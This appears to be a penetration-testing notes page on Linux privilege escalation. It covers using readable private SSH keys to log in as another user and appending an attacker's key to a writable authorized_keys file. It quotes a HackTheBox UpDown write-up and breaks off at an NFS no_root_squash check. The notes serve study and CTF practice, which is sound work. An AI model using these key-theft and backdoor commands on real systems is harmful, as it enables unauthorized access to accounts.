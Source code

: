 

- Two ways to exploit

    - `Accessing readable private SSH keys and using them to authenticate`
        - find private key
        - copy the conetent of it or else get it transfered ot our attacker machine
        - create a file and copy the contetnt in it
        - it needs to be only readable and writable only by its owner
            - `chmod 600 key_name`
        - finally login as the that user
            - `ssh -i key_name user_name@X.X.X.X`

    - `Accessing writable public SSH keys and adding your own one to them to authenticate`
        - The `authorized_keys` file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured. 
        - So If the authorized_keys file is writable `rwxrwxrwx` to the current user, `this can be exploited by adding additional authorized keys.`
        - So We simply need to generate new public and private key pair, then copy the public key into server's `authorised keys` file
            - In case we already have ssh access we can simply do by using `ssh-copy-id`
                - `ssh-copy-id user_name@X.X.X.X`
            - or we can also simply by using cat to output the contents of the id_rsa.pub file and redirect it to the authorized_keys file
                - `cat ~/.ssh/id_rsa.pub | ssh user_name@X.X.X.X "cat >> /home/user_name/.ssh/authorized_keys"`


[EXAMPLE](https://0xdf.gitlab.io/2023/01/21/htb-updown.html#ssh)
```
# Fortunately, in developer’s .ssh directory, there’s an RSA key-pair:

developer@updown:/home/developer/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub

# The public key matches the authorized_keys file, can be checked using md5sum

developer@updown:/home/developer/.ssh$ md5sum authorized_keys  id_rsa.pub 
4ecdaf650dc5b78cb29737291233fe99  authorized_keys
4ecdaf650dc5b78cb29737291233fe99  id_rsa.pub

# So the private key should be good enough to get a shell as developer, and it does:

oxdf@hacky$ vim ~/keys/updown-developer
oxdf@hacky$ chmod 600 ~/keys/updown-developer
oxdf@hacky$ ssh -i ~/keys/updown-developer developer@siteisup.htb
...[snip]...
developer@updown:~$

```

###### Misconfigured NFS (Network File Sharing)

- check for `“no_root_squash” ` in `/etc/exports` file

    ```
    karen@ip-10-10-17-59:/$ `cat /etc/exports`
